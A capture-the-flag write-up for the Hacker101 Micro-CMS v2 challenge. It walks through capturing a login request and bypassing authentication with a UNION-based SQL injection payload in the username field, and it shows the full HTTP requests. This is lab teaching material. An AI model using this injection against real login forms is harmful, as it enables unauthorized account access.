



# Micro-CMS v2 - FLAG0

## Step 1 : Login

- Go to Create New page.
- In-order to create a page you must login.



## Step 2 : Get Request

- Put any random credentials and capture the request.
- You can use BurpSuite to capture the request.

**Captured Request**

```
POST /e883720fe9/login HTTP/1.1
Host: 35.190.155.168
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://35.190.155.168
Connection: close
Referer: http://35.190.155.168/e883720fe9/login
Upgrade-Insecure-Requests: 1

username=admin &password=password
```

## Step 3 : Create SQL Payload

- Payload: `'UNION SELECT 'hack' as password#`

```
POST /e883720fe9/login HTTP/1.1
Host: 35.190.155.168
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://35.190.155.168
Connection: close
Referer: http://35.190.155.168/e883720fe9/login
Upgrade-Insecure-Requests: 1

username= admin 'UNION SELECT 'hack' as password#&password=hack
```
- Open the website, in new tab.


## Step 4 : Admin Access



- Go to Private Page

## Step 5 : Flag




**Background:** The login page is vulnerable to SQL injection when we give the username as admin' UNION SELECT "hack" as password# and password=hack. We are making the web application think that the given credentials of the admin user are same and are matched with the previous credentials in order to understand this you have to have good knowledge in SQLI.

You can learn them from the blog - https://blog.hackhunt.in/2021/08/concept-of-sql-injection.html
